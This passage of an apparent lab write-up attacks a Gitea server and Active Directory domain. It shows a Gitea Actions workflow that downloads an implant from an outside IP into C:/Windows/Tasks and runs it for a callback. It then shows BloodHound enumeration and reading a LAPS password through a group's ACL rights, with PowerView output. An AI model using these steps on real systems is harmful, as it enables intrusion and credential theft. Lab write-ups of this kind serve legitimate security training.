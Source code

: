It means that we can create a repo and use runner to execute commands. Create job file `.gitea/workflows/demo.yaml`
```
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions
on: [push]
jobs:
  Explore-Gitea-Actions:
    runs-on: windows-latest
    steps:
      - run: echo "The job was automatically triggered by a ${{ gitea.event_name }} event."
      - run: powershell -c "wget http://10.8.4.147/demon.exe -outfile c:/Windows/Tasks/demon.exe"
      - run: powershell -c "Start-Process c:/Windows/Tasks/demon.exe"
      - run: echo "This job's status is ${{ gitea.status }}."
```

![](3.png)

Enable actions

![](4.png)

Commit and push changes. After few minutes, we receive the connection

![](5.png)

We can run bloodhound to view domain info. We see that `SRV` has LAPS enabled and `thomas.wallace` is a member of `Server Administration` group 

![](6.png)

![](7.png)

We can try reading LAPS password and it works

![](8.png)

It because, the group has read privileges
```
PS C:\ProgramData> $SID = (Get-DomainGroup -Identity "Server Administration").objectsid
PS C:\ProgramData> Get-DomainObjectAcl -Identity SRV -ResolveGuids | ?{$_.SecurityIdentifier -eq $SID}


<SNIP>

AceQualifier           : AccessAllowed
ObjectDN               : CN=SRV,OU=Servers,DC=tea,DC=vl
ActiveDirectoryRights  : ReadProperty, ExtendedRight
ObjectAceType          : ms-LAPS-Password
ObjectSID              : S-1-5-21-4071478895-3826761629-2568933575-1103
<SNIP>
```
